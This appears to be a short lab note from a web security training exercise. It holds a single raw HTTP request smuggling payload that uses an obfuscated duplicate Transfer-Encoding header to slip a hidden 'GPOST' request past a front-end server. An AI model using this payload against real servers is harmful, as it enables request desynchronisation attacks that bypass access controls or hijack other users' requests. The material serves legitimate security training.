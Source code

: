 # Obfuscating TE
 ```http
 POST / HTTP/1.1
 Host: 0a33003f03b234cf81d8a36f00af00b5.web-security-academy.net
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 4
 Transfer-Encoding: chunked
 Transfer-Encoding: x
 
 5c
 GPOST / HTTP/1.1
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 15
 
 x=1
 0
 
 
```
